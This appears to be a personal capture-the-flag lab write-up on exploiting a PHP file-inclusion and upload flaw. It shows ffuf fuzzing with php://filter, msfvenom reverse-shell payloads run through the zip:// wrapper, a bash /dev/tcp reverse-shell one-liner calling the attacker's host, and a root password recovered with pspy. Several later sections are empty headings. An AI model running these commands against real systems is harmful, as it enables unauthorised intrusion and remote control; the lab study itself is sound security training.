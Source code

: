 #InProgress 
```IP
192.168.213.229
```
# Enumeration

## HTTP
file upload

# Exploitation

```
ffuf -u 'http://192.168.213.229/index.php?file=php://filter/convert.base64-encode/resource=FUZZ' -w /usr/share/seclists/Discovery/Web-Con
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203160149.png?raw=true)
seems like it is adding .php to its resources, so we can access it just by typing 'upload' for example
```
http://192.168.213.229/index.php?file=php://filter/convert.base64-encode/resource=upload
```
we can review the code by decoding it
```
cat upload64| base64 -d
```
we create our shell as follows:
```
msfvenom -p php/reverse_php LHOST=192.168.45.176 LPORT=9001 -o shell.php
```
we upload it and intercept it to see the zip name

Executing the shell with a zip filter as shown in https://book.hacktricks.xyz/pentesting-web/file-inclusion#zip-and-rar

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203163728.png?raw=true)

```
/index.php?file=zip:///var/www/html/uploads/upload_1733238807.zip%23shell
```
```
/bin/bash -i >& /dev/tcp/ 192.168.45.176/4444 0>&1
```

since I was struggling to upgrade this php reverse shell, I just imported a new one created with msfvenom
```
sfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.176 LPORT=4444 -f elf > shell.elf
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203164727.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203164751.png?raw=true)


# PrivEsc

## Manual

we find something interesting in /opt
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203165123.png?raw=true)
seems like it is getting a password from /root
then removes all .tmp files from /var/www/html/uploads
then adds the files from backup.zip to some logs???
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203165253.png?raw=true)

maybe running pspy we can get this command in real time
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203165948.png?raw=true)
```
WildCardsGoingWild
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203170122.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement
